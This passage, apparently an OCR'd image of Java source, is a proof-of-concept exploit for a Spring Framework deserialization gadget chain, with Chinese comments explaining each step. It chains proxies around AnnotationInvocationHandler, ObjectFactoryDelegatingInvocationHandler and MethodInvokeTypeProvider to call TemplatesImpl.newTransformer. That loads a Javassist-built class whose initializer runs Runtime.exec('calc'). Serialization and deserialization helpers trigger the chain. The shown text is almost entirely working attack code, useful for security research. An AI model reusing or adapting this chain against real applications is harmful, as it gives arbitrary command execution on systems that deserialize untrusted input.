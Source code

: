 ```plain
        // 并由ObjectFactoryDelegatingInvocationHandler代理,
        // invokeMethod()触发ObjectFactoryDelegatingInvocationHandler#invoke()
        Type TypeTemplates= (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Type.class,Templates.class},objInvocationHandler);
        HashMap hashMap1=new HashMap();
        hashMap1.put("getType",TypeTemplates);

        //AnnotationInvocationHandler代理TypeProvider,让getType()返回TypeTemplates
        InvocationHandler invocationHandler1= (InvocationHandler) constructor.newInstance(Target.class,hashMap1);
        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object TypeProvider=Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{typeProviderClass},invocationHandler1);

        //将TypeProvider赋值给MethodInvokeTypeProvider并修改methodName,漏洞入口点
        Class<?>  MethodInvokeTypeProvider=Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> constructor2=MethodInvokeTypeProvider.getDeclaredConstructors()[0];
        constructor2.setAccessible(true);
        Object result=constructor2.newInstance(TypeProvider,Object.class.getMethod("toString"),1);
        setFieldValue(result,"methodName","newTransformer");
        String s=serialize(result);
        unserialize(s);
    }
    public static String serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        ObjectOutputStream outputStream=new ObjectOutputStream(byteArrayOutputStream);
        outputStream.writeObject(object);
        outputStream.close();
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static  void unserialize(String s) throws IOException, ClassNotFoundException {
        byte[] result=Base64.getDecoder().decode(s);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(result);
        ObjectInputStream objectInputStream=new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
    public static byte[] getTemplates() throws CannotCompileException, NotFoundException, IOException {
        ClassPool classPool=ClassPool.getDefault();
        CtClass ctClass=classPool.makeClass("Test");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"calc\");";
        ctClass.makeClassInitializer().insertBefore(block);
        return ctClass.toBytecode();
    }

}
```
